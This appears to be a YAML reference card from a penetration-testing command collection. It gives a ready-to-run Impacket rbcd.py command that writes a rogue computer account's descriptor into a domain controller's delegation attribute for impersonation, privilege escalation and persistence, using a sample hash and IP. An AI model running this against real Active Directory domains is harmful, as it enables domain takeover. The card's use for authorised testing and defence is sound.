 ```yaml
---
description: |
  Impacket rbcd.py will modify the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer with security descriptor of another computer.
  The following command adds the related security descriptor of the created EVILCOMPUTER to the msDS-AllowedToActOnBehalfOfOtherIdentity property of DC01.
  This basically means that EVILCOMPUTER can get impersonated service tickets for DC01 using getST.py.

  Command Reference:

    Target IP: 10.10.10.1

    Domain: test.local

    Username: john

    Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

    Delegate To: DC01$

    Delegate From: EVILCOMPUTER$

command: |
  python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john
items:
  - Username
  - Hash
services:
  - Kerberos
  - SMB
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py
  - https://github.com/tothi/rbcd-attack
---
```

